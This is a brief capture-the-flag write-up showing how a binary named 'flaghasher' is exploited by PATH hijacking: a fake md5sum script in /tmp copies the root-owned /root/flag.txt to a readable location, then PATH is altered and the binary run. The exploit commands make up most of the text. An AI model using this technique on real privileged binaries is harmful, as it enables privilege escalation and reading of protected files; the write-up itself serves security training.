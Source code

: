 > If we inspect the binary using R2, we see that the binary runs the md5sum command without an absolute filepath, so we can perform path hijacking to have the binary run an md5sum binary with arbitrary code

```
echo 'cat /root/flag.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt' > /tmp/md5sum
export PATH=/tmp:$PATH
chmod 777 /tmp/md5sum
./flaghasher
cat /tmp/flag.txt
```

Finis
